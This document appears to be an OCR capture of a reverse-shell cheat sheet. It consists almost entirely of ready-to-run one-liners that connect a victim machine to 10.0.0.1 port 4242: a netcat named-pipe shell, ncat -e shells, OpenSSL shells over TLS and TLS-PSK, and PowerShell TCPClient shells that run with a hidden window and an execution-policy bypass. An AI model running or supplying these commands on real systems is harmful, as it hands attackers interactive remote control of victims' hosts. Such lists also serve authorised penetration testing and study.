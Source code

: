 ```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

### OpenSSL

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)
```bash
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
